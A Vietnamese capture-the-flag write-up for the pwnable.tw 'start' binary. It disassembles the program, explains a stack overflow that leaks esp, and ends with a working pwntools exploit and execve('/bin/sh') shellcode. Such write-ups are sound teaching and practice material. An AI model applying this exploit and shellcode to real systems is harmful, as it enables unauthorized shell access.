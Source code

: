 # start

```python
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/pwnable_tw/start$ file start
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

```shell
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x08048060  _start
0x0804809d  _exit
0x080490a3  __bss_start
0x080490a3  _edata
0x080490a4  _end
```

run thử binary:
```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/pwnable_tw/start$ ./start
Let's start the CTF:abc
```

### _start
```python
pwndbg> disass _start
Dump of assembler code for function _start:
   0x08048060 <+0>:     push   esp
   0x08048061 <+1>:     push   0x804809d
   0x08048066 <+6>:     xor    eax,eax
   0x08048068 <+8>:     xor    ebx,ebx
   0x0804806a <+10>:    xor    ecx,ecx
   0x0804806c <+12>:    xor    edx,edx
   0x0804806e <+14>:    push   0x3a465443
   0x08048073 <+19>:    push   0x20656874
   0x08048078 <+24>:    push   0x20747261
   0x0804807d <+29>:    push   0x74732073
   0x08048082 <+34>:    push   0x2774654c
   0x08048087 <+39>:    mov    ecx,esp
   0x08048089 <+41>:    mov    dl,0x14
   0x0804808b <+43>:    mov    bl,0x1
   0x0804808d <+45>:    mov    al,0x4
   0x0804808f <+47>:    int    0x80
   0x08048091 <+49>:    xor    ebx,ebx
   0x08048093 <+51>:    mov    dl,0x3c
   0x08048095 <+53>:    mov    al,0x3
   0x08048097 <+55>:    int    0x80
   0x08048099 <+57>:    add    esp,0x14
   0x0804809c <+60>:    ret
End of assembler dump.
```

Ok, giờ thì chúng ta cùng đọc asm.

Ta nhận thấy ở đây có 2 lần gọi **int 0x80** tức là có sử dungj systemcall, ta nhận thấy là **%eax = 0x3** là lệnh *read*, nếu **0x4** là lệnh *write*

Vậy thì có vẻ như chương trình dùng **write** để in ra dòng *Let's start the CTF:* sau đấy dùng **read** để mà đọc chuỗi từ user.

```js
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/pwnable_tw/start$ checksec start
[*] '/mnt/d/pwn_myself/pwnable_tw/start/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

Oke đỏ lè thế kia thì ta có thể dùng shellcode hay overflow tùy í. giờ thì bắt tay vào làm.

Đặt breakpoint tại **0x08048097 và 0x0804809c** tính được cần overflow 20bytes để đến được return address

Mà return thì return về đâu, kịch bản là ta sẽ add shellcode vào rồi gọi đến shell code để thực thi, tuy nhiên thì cần xác định địa chỉ của shellcode, mà shellcode được nạp vào stack nên cần phải leak được địa chỉ esp. Do đó ta sẽ return về hàm *write* nhằm leak các giá trị trên stack, và esp cũng nằm trên stack  

```python
0x08048099 <+57>:    add    esp,0x14
``` 
Do là sau khi read xong, thì thu hồi stack, **esp + 20** tức là 20 bytes  của chuối nãy ta in ra màn hình, nay đã thu hồi mà ta lại gọi hàm write => in ra các giá trị trên stack bao gồm cả *esp*

Sau khi mà đã leak được *esp* thì ta vào hàm read, lúc này ta gửi payload thứ 2 gồm: 20 bytes BOF, địa chỉ return về chính là địa chỉ lưu shellcode = esp + 20, shellcode

### shellcode
```python
sub esp,0x50
xor eax,eax
add eax,0x0b
xor ecx,ecx
xor edx,edx
push edx
push 0x0068732f
push 0x6e69622f
mov ebx,esp
int 0x80
```

### Exploit

```python
from pwn import *

#p = remote('chall.pwnable.tw',10000)
p = process("./start")

print(p.recvuntil(':'))
payload1 = b'A'*20 + p32(0x08048087) 
p.send(payload1)
#print(p.recv())

shellcode = b'\x83\xEC\x50\x31\xC0\x83\xC0\x0B\x31\xC9\x31\xD2\x52\x68\x2F\x73\x68\x00\x68\x2F\x62\x69\x6E\x89\xE3\xCD\x80'
payload2 = b'A'*20 + p32(u32(p.recv()[:4]) + 20) + shellcode

p.send(payload2)
p.interactive()
```